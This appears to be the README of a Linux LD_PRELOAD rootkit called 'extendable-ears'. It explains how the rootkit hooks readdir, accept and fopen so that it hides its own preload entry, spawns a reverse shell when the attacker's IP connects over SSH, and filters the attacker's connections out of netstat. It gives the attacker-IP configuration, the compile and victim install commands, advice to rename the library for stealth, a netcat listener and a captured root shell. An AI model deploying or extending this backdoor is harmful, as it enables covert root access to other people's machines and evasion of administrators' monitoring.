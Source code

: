 
### How it works
- Function calls are hooked by placing a shared library (this rootkit) into `/etc/ld.so.preload`
- To hide the rootkit's presence, `readdir()` and `readdir64()` are hooked to prevent `ld.so.preload` from being listed in directory outputs (like ls)
    - Although, listing `/etc/ld.so.preload` directly will show the file :/ (will have to add more hooks to prevent this I think)
- To send a shell the attacker, `accept()` is hooked and extendable-ears reads the client address from the `accept()` function.
    - If the client address is the attacker's IP (set in the config file), extendable-ears will send a reverse shell back to the attacker
- To hide connections from netstat, `fopen()` is hooked to check whether `/proc/net/tcp` (which stores TCP connection info) is being read.
    - If it is, extendable-ears reads /proc/net/tcp into a temporary file itself and excludes any mentions of the attacker IP
    - It then writes out the temporary file to the user instead of /proc/net/tcp

### Limitations
- Must be installed as root
    - (otherise the accept() hook won't work)

## Configure & Compile
In `extendable-ears.c` modify:
- ATTACKER_IP - change this to your own attacking IP
- ATTACKER_IP_HEX_NBO 
    - This is the hex value of your attacking IP in network-byte-order, used for hiding your netstat connection on the target. Example below:
        - rour attacking IP = 84.127.24.22
        - reverse it to get the network-byte-order = 22.24.127.84
        - convert each of the 4 numbers to hex = 16.18.7f.54
        - insert this value into ATTACKER_IP_HEX_NBO without dot-decimal notation = 16187f54
- ATTACKER_PORT - the port you want the reverse shell to connect on

Compile:
```bash
root@attacker:~# gcc extendable-ears.c -o extendable-ears.so -fPIC -shared -ldl -D_GNU_SOURCE
```

## Installation
On the target, copy the shared library/rootkit to where the other shared libraries reside.

64-bit example:
```bash
root@victim:~# cp extendable-ears.so /lib/x86_64-linux-gnu/
```
And copy the path of the rootkit into /etc/ld.so.preload.
```bash
root@victim:~# echo "/lib/x86_64-linux-gnu/extendable-ears.so" > /etc/ld.so.preload
root@victim:~# echo "/lib/extendable-ears.so" > /etc/ld.so.preload
```

I would advise renaming `extendable-ears.so` to something more stealthy.

### Verify installation
You can check if the rootkit is installed by running```ldd``` and checking that your malicious library gets loaded.
```bash
root@victim:~# ldd /usr/sbin/sshd
	linux-vdso.so.1 (0x00007ffe9214c000)
	/lib/x86_64-linux-gnu/extendable-ears.so (0x00007f17ed354000)
    [...]
```
Also check /etc/ld.so.preload for your entry.
```bash
root@victim:~# cat /etc/ld.so.preload 
/lib/x86_64-linux-gnu/extendable-ears.so
```

## Usage
1. Install as above
2. Start a listener to receive reverse shell
```bash
root@attacker:~# nc -lvnp 9001
```
3. SSH to the target machine. A shell should spawn on your listener.
It (almost) always doens't work the first time, so SSH twice.
```bash
root@attacker:~# ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
root@attacker:~# ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
```
```bash
root@attacker:~# nc -lvnp 9001
[...]
Connection received
[+] spawning shell... 
id
uid=0(root) gid=0(root) groups=0(root)
```

## Remove rootkit
Delete `/etc/ld.so.preload` and delete the maliciuos library. 
Nothing else needed.
```bash
root@victim:~# rm /etc/ld.so.preload
root@victim:~# rm /lib/x86_64-linux-gnu/extendable-ears.so
```

## Improvements
- Hide /etc/ld.so.preload better
- SSL encrypted reverse shell

## Issues
- accept() hook won't spawn reverse shell first time round, always takes at least 2 tries.
- When rootkit is loaded, commands that don't exist won't produce an error (probably something to do with dup2 or readdir)
    ```bash
    root@victim:~# asdfs
    root@victim:~# 
    ```
